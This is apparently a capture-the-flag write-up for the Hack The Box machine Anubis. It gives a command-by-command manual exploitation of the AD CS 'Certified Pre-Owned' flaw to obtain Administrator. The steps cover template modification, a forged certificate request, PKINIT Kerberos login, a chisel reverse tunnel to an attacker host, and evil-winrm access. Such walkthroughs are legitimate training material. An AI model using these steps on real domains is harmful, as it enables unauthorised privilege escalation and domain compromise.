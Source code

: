 # Alternative way to exploit Anubis

## Privilege Escalation

The **Certified Pre-Owned** vulnerability can be exploited manually without the automated tools.
This [blog article](https://elkement.blog/2020/06/21/impersonating-a-windows-enterprise-admin-with-a-certificate-kerberos-pkinit-from-linux/) explains all the steps.

Setting variable for _EKUs_ as the respective OID for SmartCard Logon:
```
$EKUs=@("1.3.6.1.5.5.7.3.2", "1.3.6.1.4.1.311.20.2.2")
```
```
Set-ADObject "CN=Web,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=WINDCORP,DC=htb" -Add @{pKIExtendedKeyUsage=$EKUs;"msPKI-Certificate-Application-Policy"=$EKUs}
```

Generating configuration file, key and request on Linux:
```bash
cnffile="admin.cnf"
reqfile="admin.req"
keyfile="admin.key"

dn="/DC=htb/DC=windcorp/CN=Users/CN=Administrator"

cat > $cnffile <<EOF
[ req ]
default_bits = 2048
prompt = no
req_extensions = user
distinguished_name = dn

[ dn ]
CN = Administrator

[ user ]
subjectAltName = otherName:msUPN;UTF8:administrator@windcorp.htb

EOF

openssl req -config $cnffile -subj $dn -new -nodes -sha256 -out $reqfile -keyout $keyfile
```

Uploading request file _admin.req_ to the box:
```
curl 10.10.14.3/admin.req -o admin.req
```

Finding out the name of the certificate authority with the `certutil` command:
```
Config:    "earth.windcorp.htb\windcorp-CA"
```

Creating certificate with `certreq`:
```
certreq -submit -config earth.windcorp.htb\windcorp-CA -attrib "CertificateTemplate:Web" admin.req admin.cer
```

Getting the certificate of the certificate authority:
```
certutil /ca.cert ca.cer
```

Modifying the **Kerberos configuration** _/etc/krb5.conf_ on our local client:
```
[libdefaults]
        default_realm = WINDCORP.HTB

[realms]
        WINDCORP.HTB = {
                kdc = EARTH.WINDCORP.HTB
                admin_server = EARTH.WINDCORP.HTB
                pkinit_anchors = FILE:/opt/krb/ca.cer
                pkinit_identities = FILE:/opt/krb/admin.cer,/opt/krb/admin.key
                pkinit_kdc_hostname = EARTH.WINDCORP.HTB
                pkinit_eku_checking = kpServerAuth
        }

[domain_realm]
        .windcorp.htb = WINDCORP.HTB
```

The files _admin.cer_, _admin.key_ and _ca.cer_ have to be moved to our _/opt/krb_ directory.

The port of **Kerberos** has to be forwarded, so it can be accessed from our local client.

Adding localhost to our _/etc/hosts_ file:
```
127.0.0.1       www.windcorp.htb earth earth.htb earth.windcorp.htb
```

Starting **Chisel server** to listen for incoming connections:
```
./chisel server --socks5 --reverse -p 8000
```

Executing _chisel.exe_ to forward connections:
```
chisel.exe client 10.10.14.3:8000 R:socks R:88:127.0.0.1:88
```

Creating **Kerberos ticket** for _Administrator_:
```
kinit -X X509_user_identity=FILE:admin.cer,admin.key Administrator@WINDCORP.HTB
```

Using **Evil-WinRM** to authenticate to the box with the ticket:
```
proxychains evil-winrm -i earth.windcorp.htb -u administrator -r windcorp.htb
```

This will use the ticket in the Kerberos database that can be checked with `klist` and authenticate to the box as _Administrator_!

